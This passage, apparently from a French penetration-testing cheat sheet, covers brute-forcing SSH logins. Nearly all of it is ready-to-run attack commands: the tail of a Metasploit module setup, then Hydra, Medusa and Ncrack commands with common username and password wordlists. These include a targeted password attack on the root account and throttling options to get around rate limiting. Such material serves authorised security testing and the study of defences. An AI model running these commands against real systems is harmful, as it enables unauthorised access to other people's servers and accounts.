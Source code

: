 #### Test mot de passe unique
```bash
set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt
set PASSWORD password123
exploit
```

### Avec Hydra

#### Syntaxe de base
```bash
# Utilisateur unique, wordlist de mots de passe
hydra -l <username> -P <password_file> ssh://<target>

# Wordlist d'utilisateurs, mot de passe unique
hydra -L <user_file> -p <password> ssh://<target>

# Wordlists multiples
hydra -L <user_file> -P <password_file> ssh://<target>

# Avec port personnalisé
hydra -L users.txt -P passwords.txt ssh://<target>:2222
```

#### Exemples pratiques avec Hydra
```bash
# Test des combinaisons classiques
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt ssh://<target>

# Attaque ciblée sur root
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://<target> -t 4 -f

# Test avec délai pour éviter le rate limiting
hydra -L users.txt -P passwords.txt ssh://<target> -t 1 -W 3
```

### Avec Medusa
```bash
# Syntaxe de base
medusa -h <target> -u <username> -P <password_file> -M ssh

# Wordlists multiples
medusa -h <target> -U <user_file> -P <password_file> -M ssh -t 10

# Avec options avancées
medusa -h <target> -U users.txt -P passwords.txt -M ssh -T 5 -t 10 -L
```

### Avec Ncrack
```bash
# Attaque basique
ncrack -p 22 --user <username> -P <password_file> <target>

# Avec timing personnalisé
ncrack -p 22 -U users.txt -P passwords.txt --timing 3 <target>
```

---